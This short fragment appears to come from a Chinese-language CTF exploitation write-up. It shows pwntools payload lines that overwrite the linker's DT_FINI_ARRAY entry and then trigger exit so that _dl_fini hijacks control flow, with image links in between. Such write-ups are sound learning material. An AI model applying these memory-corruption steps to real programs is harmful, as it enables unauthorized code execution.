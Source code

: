 ```plain
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0)) 
#l->l_info[DT_FINI_ARRAY] = 0
```

[![](assets/1701612101-b35e05de74c8e7fa33193464b40fc801.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100822-94e5ffe0-52a3-1.png)

[![](assets/1701612101-445e7e89323f4cd7ad5d154aede28352.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100831-9a0480dc-52a3-1.png)

```plain
payload += b'q'
#显式触发exit函数调用_dl_fini函数，进而控制程序流
```
